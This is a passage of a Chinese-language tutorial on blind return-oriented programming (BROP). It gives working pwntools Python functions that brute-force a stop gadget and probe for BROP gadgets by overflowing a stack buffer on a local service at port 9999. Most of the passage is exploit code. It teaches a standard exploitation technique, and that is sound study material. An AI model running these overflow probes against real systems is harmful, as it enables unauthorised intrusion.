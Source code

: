 寻找过程如下

```python
def get_stop_addr(length):
    addr = 0x400000
    while 1:
        try:
            sh = remote('127.0.0.1', 9999)
            sh.recvuntil('password?\n')
            payload = 'a' * length + p64(addr)
            sh.sendline(payload)
            sh.recv()
            sh.close()
            print 'one success addr: 0x%x' % (addr)
            return addr
        except Exception:
            addr += 1
            sh.close()
```

这里我们直接尝试64位程序没有开启PIE的情况，因为一般是这个样子的，，，如果开启了，，那就按照开启了的方法做，，结果发现了不少，，我选择了一个貌似返回到源程序中的地址

```text
one success stop gadget addr: 0x4006b6
```

#### 识别brop gadgets

下面，我们根据上面介绍的原理来得到对应的brop gadgets地址。构造如下，get_brop_gadget是为了得到可能的brop gadget，后面的check_brop_gadget是为了检查。

```python
def get_brop_gadget(length, stop_gadget, addr):
    try:
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
            stop_gadget) + p64(0) * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        print content
        # stop gadget returns memory
        if not content.startswith('WelCome'):
            return False
        return True
    except Exception:
        sh.close()
        return False


def check_brop_gadget(length, addr):
    try:
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + 'a' * 8 * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        return False
    except Exception:
        sh.close()
        return True


##length = getbufferflow_length()
length = 72
```